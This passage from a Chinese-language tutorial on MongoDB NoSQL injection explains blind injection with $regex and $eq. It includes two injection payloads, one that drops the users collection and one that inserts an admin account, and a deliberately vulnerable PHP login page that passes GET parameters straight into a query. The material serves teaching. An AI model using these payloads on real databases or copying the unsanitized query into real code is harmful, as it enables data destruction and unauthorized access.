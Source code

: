 ```php
?>
```

这样都是很危险的，因为这个就相当于把 Mongo Shell 开放给了用户，如果此时构造下列 payload：

```sql
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```

则将改变原本的查询语句造成注入。如果当前应用连接数据库的权限恰好很高，我们能干的事情就更多了

#### 5.盲注

NoSQL的盲注和SQL注入盲注类似，都是不返回数据 ，只是根据错误页面的返回来判断是否存在注入。 此处我们需要用到的MongoDB的 操作符来进行盲注$eq(等于)和$regex(正则匹配)。

$regex为查询中的模式匹配字符串提供正则表达式功能 。MongoDB使用具有UTF-8支持的Perl兼容正则表达式（即“ PCRE”）版本8.42。

要使用$regex，请使用以下语法之一：

```
{ <field>: { $regex: /pattern/, $options: '<options>' } }
{ <field>: { $regex: 'pattern', $options: '<options>' } }
{ <field>: { $regex: /pattern/<options> } }
```

在MongoDB中，您还可以使用正则表达式对象（即`/pattern/`）来指定正则表达式：

```
{ <field>: /pattern/<options> }
```

更详细的用法可以去官方文档了解[$正则表达式_MonogDB 中文网 (mongodb.net.cn)](https://mongodb.net.cn/manual/reference/operator/query/regex/)

我们先修改下index.php来做测试，因为既然是盲注，就不会像之前一样把账户密码都报出来。

```php
<?php
#连接数据库
$manager = new MongoDB\Driver\Manager("mongodb://172.17.0.3:27017");
$username = $_GET['username'];
$password = $_GET['password'];
#查询语句
$query = new MongoDB\Driver\Query(array(
'username' => $username,
'password' => $password
));
#执行语句，指定查询的数据库中的集合，查询test库的users集合
$result = $manager->executeQuery('test.users', $query)->toArray();  //toArray()将集合转成数组
$count = count($result);
if ($count > 0) {
foreach ($result as $user) {
$user = ((array)$user);
echo '====Login Success====<br>';
}
}
else{
echo 'Login Failed';
}
?>
```

